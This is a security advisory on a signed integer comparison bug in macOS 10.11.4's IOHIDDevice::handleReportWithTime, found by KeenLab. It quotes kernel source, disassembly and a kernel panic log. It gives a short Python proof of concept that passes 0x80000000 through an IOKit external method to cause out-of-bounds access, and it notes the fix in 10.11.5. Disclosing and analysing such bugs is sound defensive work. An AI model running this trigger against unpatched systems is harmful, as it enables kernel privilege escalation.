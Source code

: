 ##Interesting Integer overflow in enum comparison IOHIDDevice::handleReportWithTime in 10.11.4

By flanker from KeenLab, found at Jan 2016.

There exists a signed integer comparison overflow in `IOHIDDevice::_getReport` and then `handleReportWithTime`, which can lead to oob access/execute in `handleReportWithTime`. A normal process can leverage this vulnerability to archive potential code execution in kernel and escalate privilege.

##Vulnerability analysis
When `IOHIDLibUserClient::_getReport` is called via externalMethod, the code execution flow will be redirected in `IOHIDDevice::getReport` and then called into `IOHIDDevice::handleReportWithTime`, 

```
1281IOReturn IOHIDLibUserClient::getReport(IOMemoryDescriptor * mem, uint32_t * pOutsize, IOHIDReportType reportType, uint32_t reportID, uint32_t timeout, IOHIDCompletion * completion)
1282{
1283    IOReturn ret = kIOReturnBadArgument;
1284
1285    // VTN3: Is there a real maximum report size? It looks like the current limit is around
1286    // 1024 bytes, but that will (or has) changed. 65536 is above every upper limit
1287    // I have seen by a few factors.
1288    if (*pOutsize > 0x10000) {
1289        IOLog("IOHIDLibUserClient::getReport called with an irrationally large output size: %lu\n", (long unsigned) *pOutsize);
1290    }
1291    else if (fNub && !isInactive()) {
1292        ret = mem->prepare();
1293        if(ret == kIOReturnSuccess) {
1294            if (completion) {
1295                AsyncParam * pb = (AsyncParam *)completion->parameter;
1296                pb->fMax        = *pOutsize;
1297                pb->fMem        = mem;
1298                pb->reportType  = reportType;
1299
1300                mem->retain();
1301
1302                ret = fNub->getReport(mem, reportType, reportID, timeout, completion);
1303            }
1304            else {
1305                ret = fNub->getReport(mem, reportType, reportID);
1306
1307                // make sure the element values are updated.
1308                if (ret == kIOReturnSuccess)
1309                    fNub->handleReport(mem, reportType, kIOHIDReportOptionNotInterrupt);
1310
1311                *pOutsize = mem
```
Then `handleReport` and `handleReportWithTime` will be called.

```
2174IOReturn IOHIDDevice::handleReportWithTime(
2175    AbsoluteTime         timeStamp,
2176    IOMemoryDescriptor * report,
2177    IOHIDReportType      reportType,
2178    IOOptionBits         options)
2179{
2180    IOBufferMemoryDescriptor *  bufferDescriptor    = NULL;
2181    void *                      reportData          = NULL;
2182    IOByteCount                 reportLength        = 0;
2183    IOReturn                    ret                 = kIOReturnNotReady;
2184    bool                        changed             = false;
2185    bool                        shouldTickle        = false;
2186    UInt8                       reportID            = 0;
2187
2188    IOHID_DEBUG(kIOHIDDebugCode_HandleReport, reportType, options, __OSAbsoluteTime(timeStamp), getRegistryEntryID());
2189
2190    if ((reportType == kIOHIDReportTypeInput) && !_readyForInputReports)
2191        return kIOReturnOffline;
2192
2193    // Get a pointer to the data in the descriptor.
2194    if ( !report )
2195        return kIOReturnBadArgument;
2196
2197    if ( reportType >= kIOHIDReportTypeCount )
2198        return kIOReturnBadArgument;
2199
2200    reportLength = report->getLength();
2201    if ( !reportLength )
2202        return kIOReturnBadArgument;
2203
2204    if ( (bufferDescriptor = OSDynamicCast(IOBufferMemoryDescriptor, report)) ) {
2205        reportData = bufferDescriptor->getBytesNoCopy();
2206        if ( !reportData )
2207            return kIOReturnNoMemory;
2208    } else {
2209        reportData = IOMalloc(reportLength);
2210        if ( !reportData )
2211            return kIOReturnNoMemory;
2212
2213        report->readBytes( 0, reportData, reportLength );
2214    }
```

In Line 2197, there is  an integer signed comparison overflow. The compiler decides the `kIOHIDReportTypeCount`, which is an enum value, is signed and the assembly instruction are as follows:

```
__text:0000000000006951                 mov     r13d, 0E00002C2h
__text:0000000000006957                 jz      loc_6BBE
__text:000000000000695D                 cmp     r15d, 2
__text:0000000000006961                 jg      loc_6BBE
```
we can see `jg` is used, which indicates a signed comparison.

The `reportType` is a int32 value determined by incoming externalMethod scalar:

```
in function setReport
1355    else
1356        if ( arguments->structureInputDescriptor )
1357            ret = target->setReport( arguments->structureInputDescriptor, (IOHIDReportType)arguments->scalarInput[0], (uint32_t)arguments->scalarInput[1]);
1358        else
1359            ret = target->setReport(arguments->structureInput, arguments->structureInputSize, (IOHIDReportType)arguments->scalarInput[0], (uint32_t)arguments->scalarInput[1]);
1360
1361    return ret;
1362}
```

So an attacker can supply an overflowed negative value, i.e. 0x80000000 in scalar input and cause oob access in `handleReportWithTime`:

```
2220
2221        // The first byte in the report, may be the report ID.
2222        // XXX - Do we need to advance the start of the report data?
2223
2224        reportID = ( _reportCount > 1 ) ? *((UInt8 *) reportData) : 0;
2225
2226        // Get the first element in the report handler chain.
2227
2228        element = GetHeadElement( GetReportHandlerSlot(reportID),
2229                                  reportType);
```
We can see `reportType` is used in `GetHeadElement`, and
```
260#define GetHeadElement(slot, type)  _reportHandlers[slot].head[type]
```
Type is used as index to `head` array, so we can control the element pointer and then a virtual call follows:

```
2060        while ( element ) {
2061
2062            element->createReport(reportID, reportData, &reportLength, &element);
2063

177    virtual bool createReport( UInt8           reportID,
178                               void *        reportData, // report should be allocated outside this method
179                               UInt32 *        reportLength,
180                               IOHIDElementPrivate ** next );
```

Thus it's possible for code execution if memory is prepared.

##CrashLog
We can see a page fault is generated on oob access, indicating the negative 32bit integer has been used as index when accessing memory.
```
panic(cpu 1 caller 0xffffff800af85b8f): "vm_page_check_pageable_safe: trying to add page" "from compressor object (0xffffff800b6c35f0) to pageable queue"@/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3248.40.184/osfmk/vm/vm_resident.c:7076
Backtrace (CPU 1), Frame : Return Address
0xffffff911638b230 : 0xffffff800aedab12 mach_kernel : _panic + 0xe2
0xffffff911638b2b0 : 0xffffff800af85b8f mach_kernel : _vm_page_check_pageable_safe + 0x3f
0xffffff911638b2d0 : 0xffffff800af4a8e3 mach_kernel : _vm_fault_enter + 0x9b3
0xffffff911638b450 : 0xffffff800af4e80b mach_kernel : _vm_page_validate_cs_mapped_chunk + 0x226b
0xffffff911638b670 : 0xffffff800afcdf6d mach_kernel : _kernel_trap + 0x47d
0xffffff911638b850 : 0xffffff800afec273 mach_kernel : _return_from_trap + 0xe3
0xffffff911638b870 : 0xffffff7f8bd4c283 com.apple.iokit.IOHIDFamily : __ZN11IOHIDDevice20handleReportWithTimeEyP18IOMemoryDescriptor15IOHIDReportTypej + 0x191
0xffffff911638b9f0 : 0xffffff7f8bd4ad45 com.apple.iokit.IOHIDFamily : __ZN11IOHIDDevice12handleReportEP18IOMemoryDescriptor15IOHIDReportTypej + 0x5b
0xffffff911638ba30 : 0xffffff7f8bd486b2 com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient9getReportEP18IOMemoryDescriptorPj15IOHIDReportTypejjP15IOHIDCompletion + 0x12c
0xffffff911638ba80 : 0xffffff7f8bd4877b com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient9getReportEPvPj15IOHIDReportTypejjP15IOHIDCompletion + 0x99
0xffffff911638bad0 : 0xffffff7f8bd46c3b com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient10_getReportEPS_PvP25IOExternalMethodArguments + 0x13b
0xffffff911638bb30 : 0xffffff800b4b5958 mach_kernel : __ZN13IOCommandGate9runActionEPFiP8OSObjectPvS2_S2_S2_ES2_S2_S2_S2_ + 0x1a8
0xffffff911638bba0 : 0xffffff7f8bd47556 com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient14externalMethodEjP25IOExternalMethodArgumentsP24IOExternalMethodDispatchP8OSObjectPv + 0x64
0xffffff911638bbe0 : 0xffffff800b4df277 mach_kernel : _is_io_connect_method + 0x1e7
0xffffff911638bd20 : 0xffffff800af97cc0 mach_kernel : _iokit_server + 0x5bd0
0xffffff911638be30 : 0xffffff800aedf283 mach_kernel : _ipc_kobject_server + 0x103
0xffffff911638be60 : 0xffffff800aec28b8 mach_kernel : _ipc_kmsg_send + 0xb8
0xffffff911638bea0 : 0xffffff800aed2665 mach_kernel : _mach_msg_overwrite_trap + 0xc5
0xffffff911638bf10 : 0xffffff800afb8bda mach_kernel : _mach_call_munger64 + 0x19a
0xffffff911638bfb0 : 0xffffff800afeca96 mach_kernel : _hndl_mach_scall64 + 0x16
      Kernel Extensions in backtrace:
         com.apple.iokit.IOHIDFamily(2.0)[8D04EA14-CDE1-3B41-8571-153FF3F3F63B]@0xffffff7f8bd46000->0xffffff7f8bdbdfff
            dependency: com.apple.driver.AppleFDEKeyStore(28.30)[C31A19C9-8174-3E35-B2CD-3B1B237C0220]@0xffffff7f8bd3b000

BSD process name corresponding to current thread: Python
```
##POC


KitLib Python POC Code:

    import kitlib
    h = kitlib.openMultipleSvc('IOUSBHostHIDDevice', [0,0])[1]
    kitlib.callConnectMethod(h, 12, [0x80000000L]*3, '', 0, 1)



Tested on macmini/macbooks with usb keyboard connected (for this specific IOUSBHIDDevice service). Of course other services extending IOHIDDevice can also be affected. Other models can also apply with configuration parameter tunned.
Changing the first parameter to like 0x8000ffff and we can observe that the fault address has changed correspondingly, showing the possibility of exploitation.

##Fix advice and status
add check on reportType for negative, only accept positive value. 
This is fixed in 10.11.5 by replacing jg with ja.

![BinDiff](__ZN11IOHIDDevice20handleReportWithTimeEyP18IOMemoryDescriptor15IOHIDReportTypej.png)

(Graph made in BinDiff by David Manouchehri.)
